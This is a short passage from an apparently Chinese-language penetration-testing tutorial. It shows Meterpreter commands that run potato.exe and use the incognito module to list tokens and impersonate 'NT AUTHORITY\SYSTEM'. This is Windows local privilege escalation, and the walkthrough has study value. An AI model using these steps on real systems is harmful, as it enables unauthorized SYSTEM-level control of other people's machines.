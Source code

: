 ![](image62/62-9.png)

在刚才的test的基础之上，再执行potato.exe

```shell
cd C:\\
execute -cH -f ./potato.exe
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```

![62-10](image62/62-10.png)

